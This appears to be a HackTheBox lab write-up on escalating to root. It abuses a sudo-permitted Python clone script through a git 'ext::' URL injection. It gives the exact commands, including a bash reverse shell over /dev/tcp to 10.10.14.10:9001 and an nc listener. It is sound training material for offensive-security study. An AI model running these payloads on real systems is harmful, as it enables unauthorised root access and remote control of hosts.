 Navigate to `/opt/internal_apps/clone_changes` and view the `clone_prod_change.py` script

![[HackTheBox/Linux/attachments/Pasted image 20250509190110.png]]

### Enumerate for priv esc to root
Run `sudo -l`

![[HackTheBox/Linux/attachments/Pasted image 20250509190205.png]]
- we can execute `clone_prod_change.py` as root

Let's find a vulnerability in this script 
![[HackTheBox/Linux/attachments/Pasted image 20250509190313.png]]
- one place for user input: `url_to_clone`

Google "exploit git repo python" and discover there is an RCE

![[HackTheBox/Linux/attachments/Pasted image 20250509190512.png]]

Execute the script using a similar PoC
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/PleaseSubscribe'
```

It says that it failed BUT 
![[HackTheBox/Linux/attachments/Pasted image 20250509190807.png]]

Looking at /tmp, we see PleaseSubscribe
![[HackTheBox/Linux/attachments/Pasted image 20250509190837.png]]
- we have code execution...

### Get Reverse Shell with this CVE

Remember to encodeee
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c bash% -c% 'bash% -i% >&% /dev/tcp/10.10.14.10/9001% 0>&1'"
```

Set up nc listener
```
nc -lvnp 9001
```

![[HackTheBox/Linux/attachments/Pasted image 20250509191221.png]]
⭐ GOT ROOT ⭐


